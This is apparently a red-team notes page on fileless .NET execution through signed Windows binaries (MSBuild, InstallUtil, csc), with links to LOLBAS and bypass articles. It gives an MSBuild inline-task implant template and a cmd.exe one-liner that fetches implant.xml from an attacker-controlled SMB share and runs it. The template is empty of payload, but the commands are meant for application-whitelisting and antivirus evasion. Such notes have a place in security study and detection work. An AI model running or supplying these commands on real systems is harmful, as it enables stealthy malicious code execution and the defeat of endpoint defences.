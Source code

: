 # DotNET Execution

## MSBuild

> [!INFO] Valid Extensions
> These are the valid extensions to execute fileless .NET implant. They are: `.csproj`, `.xml`, `.xoml`.
> > [!TIP]
> > You can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the implant.

XML Implant template.

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
	  <Target Name="Hello">
	    <ClassExample />
	  </Target>
	  <UsingTask
	    TaskName="ClassExample"
	    TaskFactory="CodeTaskFactory"
	    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
	    <Task>
	    
	      <Code Type="Class" Language="cs">
	      <![CDATA[
		using System;
		using System.Runtime.InteropServices;
		using Microsoft.Build.Framework;
		using Microsoft.Build.Utilities;
		public class ClassExample :  Task, ITask {
			// C# Code here
		}
	      ]]>
	      </Code>
	    </Task>
	  </UsingTask>
	</Project>
```

To execute the .NET implant.

```
C:\> cmd.exe /V /c "set COMPILER="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !COMPILER! /noautoresponse /preprocess \\<attacker_IP>\<share_name>\implant.xml > implant.xml & !COMPILER! implant.xml"
```

## InstallUtil

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Temp\implant.exe
```

### CSC

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe C:\path\to\implant.cs
```

---
## References

### Backlinks

- [[DLL Execution]]

### LOLBAS

- [LOLBAS: MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)

- [LOLBAS: InstallUtil](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)

- [LOLBAS: CSC](https://lolbas-project.github.io/lolbas/Binaries/Csc/)

- [LOLBAS: Ilasm](https://lolbas-project.github.io/lolbas/Binaries/Ilasm/)

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: InstallUtil](https://www.ired.team/offensive-security/code-execution/t1118-installutil)

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

### Hacking Articles

- [Hacking Articles: Windows Exploitation - MSBuild](https://www.hackingarticles.in/windows-exploitation-msbuild/)

### Github

- [khr0x40sh: WhiteListEvasion](https://github.com/khr0x40sh/WhiteListEvasion)

### Secarma

- [Secarma: Three ways of using MSBuild to beat CrowdStrike](https://secarma.com/three-ways-of-using-msbuild-to-beat-crowdstrike/)

### arno0x0x

- [arno0x0x: Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)

### Black Hills Information Security

- [Black Hills Information Security: How to Bypass Application Whitelisting & AV](https://www.blackhillsinfosec.com/how-to-bypass-application-whitelisting-av/)